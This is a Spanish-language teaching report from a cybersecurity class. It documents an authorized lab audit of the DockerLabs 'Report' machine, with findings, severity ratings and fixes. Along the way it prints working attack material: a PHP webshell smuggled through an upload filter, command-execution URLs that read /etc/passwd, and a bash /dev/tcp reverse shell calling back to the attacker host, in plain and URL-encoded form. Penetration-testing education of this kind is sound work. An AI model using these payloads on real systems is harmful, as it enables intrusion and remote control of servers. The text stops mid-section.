








---
tags:
- Informes
date: '2026-09-18'
author: Carlos Castillo
---

# Report

2026-09-18 · Carlos Castillo

**MAPA VISUAL DE LA SESIÓN**

*Carlos guía la auditoría · Chema ejecuta la operación · cada obstáculo se convierte en evidencia*

|  |  |  |
| --- | --- | --- |
| **1 PREPARAR** Desplegar Report IP 172.17.0.2 Dominio realgob.dl | **2 RECONOCER** Nmap 22 · 80 · 3306 servicios expuestos | **3 MAPEAR** Navegación Gobuster registro y login |
| **CARLOS → criterio y preguntas | CHEMA → prueba y evidencia | INFORME → impacto y corrección** | | |
| **4 VALIDAR** Enumeración de usuarios phpinfo listado de directorios | **5 EXPLOTAR** Carga insegura webshell RCE y reverse shell | **6 ENCADENAR** Traversal → LFI php://filter credenciales MySQL |
| **FUENTE EXPUESTA .git → repositorio descargado → password.txt y config.php → secretos que deben rotarse** | | |
| **CIERRE DE CLASE · Documentar lo demostrado · No confundir técnica con vulnerabilidad · Pendiente: XSS, SQLi y escalada de privilegios** | | |

*Diagrama didáctico editable: flujo completo de la auditoría realizada en Report.*

# 1 Ficha de la sesión

**CONTENIDO DE CLASE**

| **Campo** | **Dato** |
| --- | --- |
| Fecha | 18/09/2026 |
| Profesor | Carlos Castillo Sanjuan |
| Alumno operador | Chema |
| Laboratorio | Report — DockerLabs |
| Objetivo | Auditoría web completa orientada a metodología, evidencia y encadenamiento de fallos |
| Entorno | Laboratorio controlado y autorizado; IP objetivo 172.17.0.2; dominio realgob.dl |
| Estado al cierre | Acceso inicial demostrado; quedaron vulnerabilidades por estudiar y no se completó escalada de privilegios |

|  |
| --- |
| **Alcance ético** Los comandos, credenciales y payloads de este documento pertenecen a la máquina Report del laboratorio autorizado. No deben trasladarse a sistemas de terceros sin permiso explícito. |

**La sesión se planteó como una auditoría realista.** Carlos dirigía el razonamiento y Chema actuaba como operador: primero entender el activo, después mapear la superficie, validar hipótesis con la mínima prueba necesaria y, por último, convertir cada resultado en evidencia, impacto y recomendación.

## Objetivos de aprendizaje

- Aplicar un flujo de auditoría web ordenado: planificación, recogida de información, análisis de vulnerabilidades y explotación controlada.
- Distinguir un dato observado, una hipótesis, una prueba fallida y una explotación confirmada.
- Relacionar fallos aparentemente menores hasta construir cadenas de ataque con impacto real.
- Documentar comandos, URLs, evidencias, limitaciones y mitigaciones con mentalidad de informe profesional.
- Comprender que obtener una shell no concluye la auditoría: todavía hay que estabilizar, verificar alcance, minimizar impacto y seguir documentando.

## Resumen ejecutivo

La aplicación expuso información técnica y rutas sensibles que facilitaron el reconocimiento. Se verificó enumeración de usuarios en el login, exposición de phpinfo y listados de directorio, una ruta de carga de archivos con controles insuficientes, ejecución remota de comandos mediante una webshell subida al servidor, lectura local de archivos mediante traversal/LFI con php://filter, exposición de credenciales MySQL y publicación accidental de un repositorio .git. La suma de estos hallazgos permitió pasar de observaciones de bajo o medio impacto a una cadena crítica.

|  |
| --- |
| **Criterio de severidad** Las cifras 3, 5,5, 7 y 10 son valoraciones orientativas anotadas en clase. No constituyen una puntuación CVSS calculada. En un informe profesional habría que fijar alcance, condiciones, privilegios, interacción e impacto antes de asignar CVSS. |

# 2 Metodología de la auditoría

**CONTENIDO DE CLASE**

| **Fase** | **Pregunta de control** | **Aplicación en Report** |
| --- | --- | --- |
| 1. Planificación | ¿Qué está autorizado y qué activo se evalúa? | Máquina Report de DockerLabs, objetivo 172.17.0.2 y dominio realgob.dl. |
| 2. Recogida de información | ¿Qué servicios, rutas, tecnologías y funciones existen? | Nmap, navegación manual, registro, login, Gobuster, phpinfo y revisión de listados. |
| 3. Análisis de vulnerabilidades | ¿Qué comportamiento apunta a un fallo reproducible? | Diferencias en mensajes, controles de carga, parámetro file, exposición .git y secretos. |
| 4. Explotación controlada | ¿Qué prueba mínima confirma impacto? | Webshell, comandos limitados, reverse shell, LFI/php://filter y descarga del repositorio expuesto. |

La regla transversal fue guardar información desde el principio. URL, petición, respuesta, comando, salida y captura deben poder reconstruir la prueba. Si una imagen no enseña el resultado final, se etiqueta como intento intermedio y se apoya en la transcripción, sin presentarla como éxito visual.

## Secuencia de trabajo observada

1. Desplegar la máquina y comprobar conectividad.
2. Enumerar puertos y servicios antes de centrarse en la web.
3. Navegar como usuario normal, registrarse y comprender el flujo de negocio.
4. Descubrir rutas y priorizarlas según los datos expuestos.
5. Validar hallazgos de forma manual y apoyarse en Burp Suite cuando era necesario modificar la petición.
6. Encadenar la carga insegura con una webshell, y el LFI con php://filter y credenciales.
7. Revisar la exposición de .git y registrar secretos presentes en el código fuente.
8. Cerrar con pendientes explícitos: XSS, SQLi y escalada no se trabajaron en esta sesión.

# 3 Preparación del laboratorio

**CONTENIDO DE CLASE**

La máquina se obtuvo desde DockerLabs y se ejecutó en un entorno local. El despliegue estándar del portal consiste en descargar el ZIP, extraerlo y ejecutar el script auto\_deploy.sh con el archivo de la máquina. La clase también usó una ayuda local denominada report-lab para simplificar el arranque y la comprobación del estado.

**Despliegue estándar mostrado por DockerLabs**

|  |
| --- |
| sudo bash auto\_deploy.sh nombre\_maquina.tar |

**Preparación anotada en clase**

|  |
| --- |
| sudo ln -s /usr/local/bin/report-lab /usr/bin/report-lab mkdir -p ~/Laboratorios/Report/{evidencias,escaneos,notas} cd ~/Laboratorios/Report sudo report-lab estado sudo report-lab iniciar settarget 172.17.0.2 Report ping -c 3 172.17.0.2 |

|  |
| --- |
| **Precisión** report-lab y settarget son utilidades auxiliares del entorno de clase, no comandos estándar de Linux. El dominio realgob.dl debe resolver a la IP del laboratorio para que las URLs funcionen. |

## Enumeración de puertos y servicios

**Comando de escaneo registrado**

|  |
| --- |
| nmap -p- -sC -sV -Pn -T5 --open 172.17.0.2 -oN scan28052026Todo --stats-every 10s |

| **Opción** | **Función en este laboratorio** |
| --- | --- |
| -p- | Analiza todos los puertos TCP. |
| -sC | Ejecuta el conjunto de scripts NSE por defecto. |
| -sV | Intenta identificar servicios y versiones. |
| -Pn | Trata el host como activo sin depender de descubrimiento previo por ping. |
| -T5 | Acelera la temporización; apropiado aquí por ser un entorno local controlado. |
| --open | Muestra únicamente puertos abiertos o posiblemente abiertos. |
| -oN | Guarda la salida normal en un archivo. |
| --stats-every 10s | Emite estadísticas periódicas de progreso. |

|  |
| --- |
| **Nombre del archivo** Se conserva literalmente scan28052026Todo porque es el nombre registrado en el material. No se corrige como si correspondiera a la fecha de la sesión. |

| **Puerto** | **Servicio identificado** | **Lectura inicial** |
| --- | --- | --- |
| 22/tcp | SSH | Posible acceso remoto; la transcripción lo menciona, aunque no conserva una línea completa del escaneo con versión. |
| 80/tcp | HTTP | Superficie principal de la auditoría. La evidencia posterior muestra Apache/2.4.58 (Ubuntu). |
| 3306/tcp | MySQL/MariaDB | Servicio de base de datos expuesto; se intentó acceso remoto con credenciales recuperadas, sin éxito confirmado. |

# 4 Mapeo funcional y descubrimiento de rutas

**CONTENIDO DE CLASE**

Antes de atacar, se recorrió la web como un usuario normal. Se identificaron las secciones Inicio, Noticias, Contacto, Acerca de, Acceso y Registro. El registro permitió observar funciones autenticadas y entender mejor qué esperaba la aplicación de cada flujo.

|  |
| --- |
| **Idea central de Carlos** No se audita bien una aplicación que no se entiende. Primero hay que conocer qué hace, qué datos trata, qué rutas son normales y qué comportamiento espera el cliente. |

## Descubrimiento de directorios

**Enumeración de contenido web**

|  |
| --- |
| gobuster dir -u http://realgob.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt |

| **Ruta** | **Interés observado** | **Estado** |
| --- | --- | --- |
| /login.php | Login con respuestas distintas para usuarios válidos e inexistentes. | Confirmado |
| /info.php | Página phpinfo con configuración detallada del servidor. | Confirmado |
| /uploads/ | Directorio de cargas con listado accesible. | Confirmado en notas |
| /database/ | Ruta sensible detectada y pendiente de valorar por contenido. | Detectado; análisis parcial |
| /api/ | Ruta sensible detectada y pendiente de valorar por contenido. | Detectado; análisis parcial |
| /desarrollo/ | Área que exponía el subdirectorio .git. | Confirmado |
| /cargas.php | Formulario de subida de archivos. | Confirmado |
| /config.php | Archivo de configuración objetivo de la lectura de código fuente. | Confirmado mediante LFI/php://filter |

La gravedad de un directorio accesible depende del contenido, no solo de que exista. Un índice vacío puede ser informativo; un índice con copias de seguridad, bases de datos, cargas de usuarios o repositorios puede elevar el riesgo de forma drástica.

## Diccionarios adaptados al objetivo

La clase señaló que el idioma y el contexto de la empresa deben influir en las palabras buscadas. Para una entidad española tendría sentido complementar listas genéricas con vocabulario de negocio: desarrollo, pruebas, copia, respaldo, usuarios, facturas, documentos, antiguo, temporal o interno.

|  |
| --- |
| **Ampliación técnica** Puede prepararse un generador de diccionarios contextuales que reciba idioma, sector, marcas, nombres de departamentos y tecnología. Su salida debe revisarse antes de usarla: automatizar la preparación no sustituye el criterio ni amplía el alcance autorizado. |

# 5 Matriz de hallazgos

**CONTENIDO DE CLASE**

| **ID** | **Hallazgo** | **Fase** | **Valoración de clase** | **Estado** |
| --- | --- | --- | --- | --- |
| H-01 | Enumeración de usuarios por mensajes diferenciados | Análisis | 7/10 | Confirmado |
| H-02 | Exposición de phpinfo | Recogida / análisis | 5,5/10 | Confirmado |
| H-03 | Listado de directorios y exposición de datos | Recogida / análisis | 3–5,5/10 según datos | Confirmado / parcial |
| H-04 | Carga de archivos con controles insuficientes | Explotación | Crítica por encadenamiento | Éxito confirmado por transcripción |
| H-05 | Ejecución remota de comandos mediante webshell | Explotación | 10/10 | Confirmado |
| H-06 | Path Traversal y LFI | Análisis / explotación | Crítica por cadena | Confirmado |
| H-07 | Lectura de config.php y exposición de credenciales MySQL | Explotación | 10/10 | Confirmado |
| H-08 | Repositorio .git expuesto y secretos en código | Recogida / análisis | Sin cifra registrada | Confirmado |

|  |
| --- |
| **Lectura correcta** Reverse shell, estabilización de TTY y php://filter son técnicas o mecanismos usados durante la explotación; no deben contarse automáticamente como vulnerabilidades independientes. |

# 6 H-01 Enumeración de usuarios en el login

**CONTENIDO DE CLASE**

| **Atributo** | **Detalle** |
| --- | --- |
| Endpoint | http://realgob.dl/login.php |
| Evidencia | Un usuario válido con contraseña errónea devolvía “Contraseña incorrecta”; la respuesta difería para un usuario inexistente. |
| Valoración de clase | 7/10 — orientativa, no CVSS formal. |
| Impacto | Permite construir una lista fiable de cuentas y reduce el espacio de búsqueda para ataques posteriores. |
| Corrección | Respuesta genérica, tiempos equivalentes, limitación de intentos, supervisión y MFA cuando proceda. |

El fallo no está en que la contraseña sea incorrecta, sino en que el sistema revela si el nombre de usuario existe. Con esa señal, un atacante puede separar el descubrimiento de cuentas del intento de autenticación.

**Evidencia real 1 — Respuesta diferenciada del login**

La URL del laboratorio y el mensaje “Contraseña incorrecta” quedan visibles. La captura demuestra la respuesta para una cuenta válida; la comparación con una cuenta inexistente consta en la transcripción.

## Uso de Burp Intruder

Se prepararon posiciones para nombre de usuario y contraseña y se repasaron los tipos de ataque. Para dos listas independientes, Cluster Bomb combina cada elemento de la primera con cada elemento de la segunda; su coste crece multiplicando ambas listas, por lo que debe limitarse en un laboratorio.

| **Tipo** | **Comportamiento** | **Uso didáctico** |
| --- | --- | --- |
| Sniper | Prueba un conjunto de payloads en una posición cada vez. | Aislar un parámetro. |
| Battering Ram | Envía el mismo payload a todas las posiciones marcadas. | Repetir un mismo valor. |
| Pitchfork | Avanza varias listas en paralelo. | Pares ya relacionados. |
| Cluster Bomb | Prueba el producto cartesiano de varias listas. | Usuario × contraseña. |

**Evidencia real 2 — Configuración de ataque en Burp Intruder**

Se observan las posiciones sobre username y password y el selector de tipo de ataque con Cluster Bomb destacado. La ejecución masiva quedó anotada como “probar luego”.

# 7 H-02 Exposición de phpinfo

**CONTENIDO DE CLASE**

| **Atributo** | **Detalle** |
| --- | --- |
| Endpoint | http://realgob.dl/info.php |
| Valoración de clase | 5,5/10 — orientativa. |
| Datos observados | PHP 8.3.6; Apache/2.4.58 (Ubuntu); Server API Apache 2.0 Handler; rutas de configuración. |
| Datos útiles para la cadena | DocumentRoot /var/www/html, php.ini cargado desde /etc/php/8.3/apache2/php.ini y Server Root /etc/apache2. |
| Impacto | Reduce la incertidumbre y facilita construir rutas, payloads y pruebas adaptadas al servidor. |
| Corrección | Eliminar phpinfo de producción o restringirlo de forma fuerte; revisar la exposición de cabeceras y errores. |

phpinfo no ejecutó el ataque por sí solo, pero convirtió información desconocida en datos operativos. En particular, conocer /var/www/html permitió formular después la ruta absoluta de config.php en la prueba de LFI.

**Evidencia real 3 — Configuración expuesta mediante phpinfo**

La captura muestra PHP 8.3.6, Apache/2.4.58 (Ubuntu), rutas de configuración y el endpoint /info.php.

# 8 H-03 Listado de directorios y exposición de datos

**CONTENIDO DE CLASE**

Se registraron listados accesibles en /uploads/ y rutas sensibles como /database/ y /api/. La valoración anotada fue 5,5/10 para la exposición en uploads y entre 3 y 5 para otros directorios, siempre dependiendo de qué archivos pudiera recuperar un usuario no autorizado.

| **Componente** | **Qué se debe comprobar** | **Riesgo** |
| --- | --- | --- |
| /uploads/ | Archivos subidos, nombres predecibles, ejecución de scripts y datos de terceros. | Divulgación y posible ejecución si el directorio está bajo el webroot. |
| /database/ | Copias, volcados, esquemas, credenciales o ficheros temporales. | Pérdida masiva de confidencialidad si contiene backups. |
| /api/ | Documentación, endpoints, versiones, claves o respuestas no autenticadas. | Ampliación de superficie y acceso no previsto. |
| Índice Apache | Si el listado se genera automáticamente por configuración. | Facilita inventario de archivos que no estaban enlazados. |

|  |
| --- |
| **Separación conceptual** Directory Listing es la capacidad de enumerar el contenido de una carpeta. Information Exposure es la consecuencia cuando esa enumeración o una respuesta revela datos sensibles. Pueden coexistir, pero no son sinónimos. |

La evidencia visual disponible para este bloque se concentra en el repositorio .git expuesto, desarrollado como hallazgo específico más adelante. Los listados de uploads, database y api constan en notas y transcripción, por lo que se registran sin atribuirles archivos no observados.

# 9 H-04 Carga insegura de archivos

**CONTENIDO DE CLASE**

| **Atributo** | **Detalle** |
| --- | --- |
| Endpoint | http://realgob.dl/cargas.php |
| Observación | La aplicación aceptaba cargas y aplicaba validaciones que pudieron manipularse desde la petición HTTP. |
| Primer intento | Un PHP directo fue rechazado. |
| Prueba posterior | Se modificaron nombre, Content-Type y contenido/magic bytes desde Burp; la transcripción confirma “Archivo cargado”. |
| Causa raíz | Confianza insuficiente en metadatos controlables por el cliente y almacenamiento accesible desde la web. |
| Impacto final | La carga alcanzó ejecución de comandos; por el encadenamiento, el riesgo es crítico. |

**Evidencia real 4 — Formulario de subida de archivos**

Página cargas.php usada como punto de entrada para las pruebas de validación y subida.

## Controles que deben existir

| **Control** | **Qué aporta** | **Limitación** |
| --- | --- | --- |
| Nombre y extensión | Rechaza extensiones no permitidas y nombres peligrosos. | Puede eludirse con variantes si se usa como única barrera. |
| Content-Type | Ayuda a clasificar el archivo declarado. | Lo envía el cliente y puede falsificarse. |
| Firma o magic bytes | Contrasta el contenido real esperado. | También debe combinarse con análisis y decodificación segura. |
| Reescritura del archivo | Normaliza imágenes/documentos al regenerarlos. | No aplica a todos los formatos. |
| Almacenamiento fuera del webroot | Evita ejecución directa por URL. | Debe acompañarse de un controlador de descarga autorizado. |
| Nombre aleatorio y permisos mínimos | Reduce predicción, colisiones y abuso. | No sustituye la validación. |

## Petición manipulada y lectura correcta de la evidencia

**Fragmento de la parte multipart trabajada en Burp**

|  |
| --- |
| Content-Disposition: form-data; name="file"; filename="importantenomirar.php" Content-Type: image/gif  GIF8; <?php system($\_GET['cmd']); ?> |

**Evidencia real 5 — Intento intermedio de evasión en Burp Repeater**

La petición contiene nombre .php, Content-Type image/gif, firma GIF8; y la webshell. La respuesta visible sigue indicando “Tipo de archivo no permitido”; por tanto, esta captura no prueba el bypass final. El éxito posterior consta en la transcripción.

|  |
| --- |
| **Evidencia honesta** La captura es valiosa porque documenta la técnica y un control que todavía bloqueaba la petición. Presentarla como éxito sería incorrecto; el informe separa explícitamente intento denegado y resultado final narrado. |

# 10 H-05 Ejecución remota de comandos

**CONTENIDO DE CLASE**

Una vez alojada la webshell en una ruta accesible, el parámetro cmd llegó a system(). Esto permitió ejecutar órdenes del sistema operativo con la identidad del proceso web. La valoración de clase fue 10/10.

**Webshell mínima**

|  |
| --- |
| <?php system($\_GET['cmd']); ?> |

| **Elemento** | **Función** |
| --- | --- |
| $\_GET['cmd'] | Recibe el valor del parámetro cmd de la URL. |
| system(...) | Entrega ese valor al sistema operativo y muestra la salida. |
| Contexto de ejecución | Los comandos se ejecutan con los permisos del usuario del servidor web, observado como www-data. |

**Ejemplos de comprobación limitada en el laboratorio**

|  |
| --- |
| http://realgob.dl/uploads/importantenomirar.php?cmd=id http://realgob.dl/uploads/importantenomirar.php?cmd=ls http://realgob.dl/uploads/importantenomirar.php?cmd=cat%20/etc/passwd |

La lectura de /etc/passwd mostró cuentas estándar y de servicio, entre ellas root, www-data, ubuntu, mysql y adm. Este archivo no contiene normalmente los hashes modernos de contraseña, pero ayuda a identificar usuarios, shells y directorios personales para la fase posterior.

|  |
| --- |
| **Clasificación precisa** El fallo inicial es una carga de archivos insegura. La webshell es el artefacto subido. La ejecución de comandos es el impacto. La reverse shell es una técnica para obtener un canal interactivo. Separar estos conceptos mejora el informe. |

## Reverse shell

**Escucha en Kali y conexión desde la víctima**

|  |
| --- |
| nc -lvnp 4444  bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' |

El listener queda a la espera en 172.17.0.1:4444. Cuando el servidor ejecuta el segundo comando, conecta de vuelta y redirige entrada, salida y errores de una Bash interactiva por el socket TCP.

|  |
| --- |
| **Ruta registrada pendiente de validar** Las notas incluyen una URL con /importantenomirar.php/shell.php antes de ?cmd=. Ese segmento no coincide con el nombre del archivo usado en la webshell y debe revalidarse. La forma canónica documentada arriba evita dar por buena una ruta inconsistente. |

**La URL codificada registrada en clase fue:**

|  |
| --- |
| http://realgob.dl/uploads/importantenomirar.php/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/4444%200%3E%261%27 |

|  |
| --- |
| **Mnemotecnia de clase** En las notas, RCE y reverse shell se asociaron en tono humorístico a “días de vacaciones” — marcador: 3 días, menos 2 por la llamada de Carlos. Es una anécdota de clase, no un criterio de severidad. |

## Estabilización de la terminal

La shell inicial era limitada: podía no gestionar señales, autocompletado, historial o programas interactivos. Se comentaron dos enfoques. La transcripción confirma que se recurrió a Python 3 porque python no existía, aunque no conserva completa la sintaxis. La secuencia manual sí quedó anotada con mayor detalle.

**Ampliación técnica — sintaxis habitual con Python 3; no quedó capturada completa**

|  |
| --- |
| python3 -c 'import pty; pty.spawn("/bin/bash")' |

**Secuencia manual registrada en las notas**

|  |
| --- |
